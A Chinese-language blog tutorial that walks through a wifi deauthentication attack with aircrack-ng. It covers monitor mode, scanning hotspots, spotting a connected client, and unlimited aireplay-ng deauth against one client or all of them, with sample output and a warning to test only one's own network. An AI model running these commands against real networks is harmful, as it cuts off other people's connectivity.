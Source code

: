 ```yaml
---
title: "中斷無線網路的方法"
date: 2021-05-03T10:01:49+08:00
draft: false
tags: ["secure","aircrack","資安","wifi"]
featured_image: "/secure.jpg"
---
```


### 警告：此方法只能用於自己的無線網路裝置，目的應該是了解無線網路運作，絕對不能造成他人的困擾或損失，我們應該秉持所有人類都是同胞的心態。就算你的鄰居或同學很令你厭煩，也千萬不能將這個用在他身上，你唯一能作的就是替他祈禱。

環境建議:  
本機安裝的linux  
(虛擬機或docker不一定有權限直接操作物理的wifi網路卡）  
Ubuntu/Debian/Linux mint 

## 1.下載無線網路工具aircrack
更新軟體庫
```bash
sudo apt update
```
安裝aircrack-ng軟體
```bash
sudo apt install aircrack-ng
```
## 2.檢查wifi網路卡名稱
找到自己的wifi網路卡名稱
```bash
iwconfig
```
以我的筆電來說無線網卡的開頭名稱常常是wl  
就像這樣(為了安全這裡的數值都更改過，非原數值)  
```
wlp3s0    IEEE 802.11  ESSID:"alex"  
          Mode:Managed  Frequency:2.462 GHz  Access Point: FF:FF:FF:FF:FF:FF   
          Bit Rate=72.2 Mb/s   Tx-Power=15 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
          Link Quality=52/70  Signal level=-58 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:19   Missed beacon:0

```
我的網卡名稱是wlp3s0  
## 3.監聽模式
把網卡切換成監聽模式
```
sudo airmon-ng start wlp3s0(這裡改成你的網卡名稱)
```
檢查網卡名稱是否變成監聽模式的名稱
```
iwconfig
```
來看看我的網卡名稱是否改變  
```
wlp3s0mon  IEEE 802.11  Mode:Monitor  Frequency:2.462 GHz  Tx-Power=15 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:off
```
我的網卡名稱變成wlp3s0mon了，成功進入監聽模式  

## 4.開始蒐集所有wifi熱點資訊
顯示監聽結果
```
 sudo airodump-ng wlp3s0mon(你的網卡名稱)
```
我們這時可以看到周遭所有啟動的wifi熱點基地台  
```
 CH  4 ][ Elapsed: 12 s ][ 2021-05-03 11:33 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
                                              
 EE:EE:EE:AA:AA:AA  -72       30        3    0  11  130   WPA2 CCMP   PSK  alice                                                        
 DD:DD:DD:DD:DD:DD  -60       34        0    0  6   65   WPA2 CCMP   PSK  bob 
```
這裡我們可以看到有兩個熱點，看到ESSID那欄，名稱分別是alice跟bob  
我們的目標是alice  
BSSDID是，這有點類似車牌，可是區分出無線網路中的不同裝置    
alice的熱點的BSSID:  
```
EE:EE:EE:AA:AA:AA
```
然後這時候看到CH那一欄
alice的CH(頻道)是:
```
11
```
## 5.監聽目標wifi熱點
這時候我們可以來看看有誰連上alice的wifi熱點  
```
sudo airodump-ng --bssid EE:EE:EE:AA:AA:AA --channel 11  wlp3s0mon 
```
監聽到的結果
```
 CH 11 ][ Elapsed: 8 mins ][ 2021-05-03 11:54 ][ WPA handshake: EE:EE:EE:AA:AA:AA 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 EE:EE:EE:AA:AA:AA  -64 100     1152      332    0  11   65   WPA2 CCMP   PSK  alex                                                   

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 EE:EE:EE:AA:AA:AA  CC:CC:CC:CC:CC:CC  -67    1e- 0e     0      193  EAPOL  alex 
```
注意看底下STATION那個欄位有一個奇怪的MAC位址：
```
CC:CC:CC:CC:CC:CC
```
啊！原來有一個人連上了alice的wifi熱點，他的MAC位址是CC:CC:CC:CC:CC:CC  
我們幫它取名為Peter吧～  
Peter的電腦網卡MAC位置是CC:CC:CC:CC:CC:CC  
## 6.中斷無線網路
我們現在用下面這條指令中斷Peter的連線  
```
sudo aireplay-ng --deauth 0 -c CC:CC:CC:CC:CC:CC -a  EE:EE:EE:AA:AA:AA wlp3s0mon
```
加上註解
```
sudo aireplay-ng --deauth（中斷登入攻擊） 0（0代表無限次） -c CC:CC:CC:CC:CC:CC（被攻擊者peter的MAC位址） -a  EE:EE:EE:AA:AA:AA（alice的wifif熱點ID） wlp3s0mon(網卡名稱)
```
如果想要中斷所有使用者  

```
sudo aireplay-ng --deauth 0  -a  EE:EE:EE:AA:AA:AA wlp3s0mon
```

## 7.復原自己的無線網路狀態
我們測試完畢了，把無線網卡從監聽狀態回復為一般狀態  
```
sudo  airmon-ng stop  wlp3s0mon
```
不復原網卡你就無法正常上網